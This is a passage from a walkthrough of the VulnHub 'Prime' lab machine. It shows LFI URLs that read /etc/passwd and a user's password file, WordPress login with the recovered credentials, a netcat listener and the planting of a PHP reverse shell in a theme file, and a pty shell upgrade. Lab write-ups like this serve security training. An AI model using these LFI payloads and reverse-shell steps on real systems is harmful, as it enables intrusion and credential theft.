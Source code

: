 - So now we are given a LFI parameter `secrettier360` but not the file to look for. And the only other PHP file we found with GoBuster was `image.php`.
- I went with [SyLFI](https://github.com/0xKirito/sylfi) again as it supports known/custom LFI parameters. I removed `location.txt` from the payload and uncommented the default payload (common files like `/etc/passwd`) that I had commented out earlier.
- ```
  ./sylfi.py -u http://10.0.2.15/image.php -p "?secrettier360=" -d 1
  ```

![VulnHub Prime LFI with SyLFI by 0xKirito](/imgs/prime/prime_lfi_with_sylfi2.png)

- ```
  http://10.0.2.15/image.php?secrettier360=/etc/passwd
  ```
- The last few lines of `/etc/passwd` read:

```
victor:x:1000:1000:victor,,,:/home/victor:/bin/bash
mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false
saket:x:1001:1001:find password.txt file in my directory:/home/saket:
sshd:x:122:65534::/var/run/sshd:/usr/sbin/nologin
```

- `find password.txt file in my directory:/home/saket`
- So lets try that in the browser:
- ```
  http://10.0.2.15/image.php?secrettier360=/home/saket/password.txt
  ```
- Password => `follow_the_ippsec`
- I tried these credentials on SSH but it didn't work. I tried on WordPress login and it worked.

#### WordPress Exploitation

- WordPress => `victor`:`follow_the_ippsec`
- On WordPress dashboard, click on Appearance and select 'Theme Editor'. You will see some PHP files listed on the right. But we cannot write to them. I kept going through all the PHP files listed there and finally came across `secret.php` which was writable.

![VulnHub Prime WordPress Writable PHP File](/imgs/prime/prime_wordpress_writable_php_for_shell.png)

- Start a netcat listener: `nc -lvnp 4242`
- Paste the PHP reverse shell code in `secret.php` file with your Kali VM IP and port number for netcat listener. Save the changes and then open the file in browser.
- ```
  http://10.0.2.15/wordpress/wp-content/themes/twentynineteen/secret.php
  ```
- We will have a reverse shell as `www-data`.

#### Upgrading the Shell

- `python3 -c 'import pty;pty.spawn("/bin/bash")'`
- `Ctrl + Z` to background the terminal with reverse shell. Then run `stty -a` to get the `columns` and `rows` on your terminal. I use a full screen terminal for better readability so these numbers might seem large and will be different for you.
